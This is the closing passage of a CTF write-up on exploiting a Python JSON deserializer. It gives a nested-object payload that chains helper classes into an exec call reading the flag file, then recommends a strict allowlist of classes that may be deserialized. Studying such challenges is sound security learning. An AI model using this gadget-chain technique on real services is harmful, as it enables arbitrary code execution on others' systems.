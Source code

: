 ```json
        "a_property": {
          "__class__": "RandomClass2",
          "__module__": "helpers",
          "a_property": {
            "__class__": "UpperRequest",
            "__module__": "__main__",
            "a_method": {
              "__class__": "EvalClass",
              "__module__": "helpers",
              "arg": "exec(\"raise Exception(open('flag').read())\")"
            }
          }
        }
      }
    }
  }
}
```

Of course chaining of methods could also be possible, but I think the idea is clear now. If the size of the library increases, the available Python gadgets also increases. With it the possible ways to write a chain resulting in an exploit also increases.

## Closing notes

This challenge learned me a lot about the builtin methods of Python (in this case `__call__`) and how a harmless looking program actually can be exploited in an interesting way. This way of (de)serializing JSON data to/from objects of classes isn't used that often, but if used the best fix would be to limit the classes to which can be deserialized. In the `dict_to_object` method of the server the following code could be changed:

```python
if (module_name not in ["__main__"]) and (
    not module_name.startswith("sqlalchemy")
):
    # no unintended solutions plz
    raise ModuleNotFoundError(f"No module named {module_name}")
```

Here the classes from the `sqlalchemy` modules are explicitly allowed, which of course made the exploit possible. The fix would be to limit the module and class deserialization options to only allowed values.

Although I didn't solve this challenge during the CTF, I still thought it was very useful. By trying to think about it during the CTF and trying the solutions from the write-ups afterwards, I learned something new about Python. This, I think, is one of the main reasons for me to play these CTF challenges.
